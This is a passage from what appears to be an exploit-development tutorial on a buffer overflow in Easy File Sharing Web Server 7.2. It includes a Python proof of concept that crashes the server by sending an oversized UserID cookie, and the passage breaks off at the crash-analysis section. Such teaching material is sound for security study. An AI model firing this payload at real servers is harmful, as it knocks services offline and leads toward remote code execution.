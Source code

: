 
With the environment ready to go, let's turn the [existing exploit](https://www.exploit-db.com/exploits/38526/) into a more cut down PoC - all we need to know is how to trigger a crash, that's it!

Lets use the code below as a starting point:

{% codeblock lang:python %}
import sys, socket, struct
 
if len(sys.argv) <= 1:
    print "Usage: python efsws.py [host] [port]"
    exit()
  
host = sys.argv[1]    
port = int(sys.argv[2])
 
 
buffer = "A" * 5000
 

httpreq = (
"GET /changeuser.ghp HTTP/1.1\r\n"
"User-Agent: Mozilla/4.0\r\n"
"Host:" + host + ":" + str(port) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + host + "/\r\n"
"Cookie: SESSIONID=6771; UserID=" + buffer + "; PassWD=;\r\n"
"Conection: Keep-Alive\r\n\r\n"
)
 
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(httpreq)
s.close()
{% endcodeblock %}

So, in simple terms, we're sending 5000 "A"s in the `UserID` cookie as a part of GET request sent to the server to trigger a crash.


Understanding the crash
-----------------------

Let's trigger the crash and investigate it. Start the server:

![Server_start PNG](/images/posts/2015-11-25-easy-file-sharing-web-server-v7-dot-2-remote-seh-buffer-overflow-dep-bypass-with-rop/server_start.png)